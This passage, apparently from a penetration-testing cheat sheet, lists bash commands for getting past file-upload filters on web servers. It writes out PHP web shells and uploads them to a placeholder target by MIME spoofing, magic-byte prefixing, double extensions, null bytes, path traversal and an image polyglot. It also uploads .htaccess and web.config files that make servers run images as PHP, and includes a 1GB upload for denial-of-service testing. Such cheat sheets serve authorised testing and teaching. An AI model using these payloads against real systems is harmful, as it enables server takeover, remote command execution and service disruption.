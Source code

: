 ```bash
curl -X POST -F "file=@shell.php;type=image/jpeg" http://target.com/upload.php
# Spoofs MIME type to bypass client-side filtering
# Many applications only check MIME type

# File signature bypass (magic bytes)
printf "\xFF\xD8\xFF\xE0<?php system(\$_GET['cmd']); ?>" > shell_with_jpeg_header.php
curl -X POST -F "file=@shell_with_jpeg_header.php" http://target.com/upload.php
# Adds JPEG magic bytes to PHP shell
# Bypasses file signature validation

# Double extension bypass
echo "<?php system(\$_GET['cmd']); ?>" > shell.php.jpg
curl -X POST -F "file=@shell.php.jpg" http://target.com/upload.php
# Some applications strip last extension
# Results in shell.php being executed

# Null byte injection (older PHP versions)
echo "<?php system(\$_GET['cmd']); ?>" > "shell.php%00.jpg"
curl -X POST -F "file=@shell.php%00.jpg" http://target.com/upload.php
# Null byte truncates filename parsing
# Works on vulnerable PHP versions

# Path traversal in filename
curl -X POST -F "file=@shell.php" -F "filename=../../../var/www/html/shell.php" http://target.com/upload.php
# Attempts to write file outside intended directory
# May allow writing to web root

# Large file upload (DoS testing)
dd if=/dev/zero of=large_file.txt bs=1M count=1000
curl -X POST -F "file=@large_file.txt" http://target.com/upload.php
# Tests for file size limitations
# May cause denial of service

# Polyglot file creation (valid image + PHP code)
exiftool -Comment="<?php system(\$_GET['cmd']); ?>" image.jpg -o polyglot.jpg
# Embeds PHP code in image metadata
# Executes if processed by PHP
```

### **Advanced File Upload Bypass Techniques**

```bash
# .htaccess upload for Apache servers
cat > .htaccess << 'EOF'
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .png
EOF
curl -X POST -F "file=@.htaccess" http://target.com/upload.php
# Makes Apache treat images as PHP files
# Allows execution of image-based shells

# Web.config upload for IIS servers
cat > web.config << 'EOF'
<configuration>
    <system.webServer>
        <handlers>
            <add name="php-jpg" path="*.jpg" verb="*" modules="FastCgiModule" scriptProcessor="C:\php\php-cgi.exe" resourceType="Unspecified" />
        </handlers>
    </system.webServer>
</configuration>
EOF
```